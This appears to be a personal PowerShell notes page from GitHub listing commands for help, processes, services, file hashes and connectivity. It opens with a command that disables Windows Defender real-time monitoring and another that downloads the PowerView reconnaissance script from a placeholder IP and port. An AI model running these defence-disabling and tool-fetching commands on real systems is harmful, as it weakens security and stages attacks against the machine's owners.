 ### 25-Jan-24-Thu

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
Invoke-WebRequest http://<ip>:<port>/PowerView.ps1 -OutFile PowerView.ps1
```

```
Get-FileHash somefile.ext
```

```
Get-FileHash somfile.ext -Algorithm MD5
```

```
$psversiontable
```

![image](https://github.com/user-attachments/assets/20e96730-c065-4775-b430-3bc1c80f5979)

```
Get-Help Get-Help
```

![image](https://github.com/user-attachments/assets/7aabfd9f-168e-434d-80d5-d9ee4937fbb3)

```
Get-Help -Name Get-Command -Detailed
```

![image](https://github.com/user-attachments/assets/bba5f21b-42d0-42c2-8ae9-da9146982a39)

```
alias
```

![image](https://github.com/user-attachments/assets/64d4d22c-35ec-4ace-bae2-46925963d014)

```
Get-Process
```

```
Stop-Process -id 12345
```

```
Get-Service |Select-Object Status,Name
```

```
Get-Service | Where-Object Status -eq "Running"
```

```
Get-Service | Where-Object Status -ne "Running"
```

```
 Test-NetConnection google.com
```

![image](https://github.com/user-attachments/assets/36f3e110-51b2-4fbc-b389-3a420a4d6bc1)
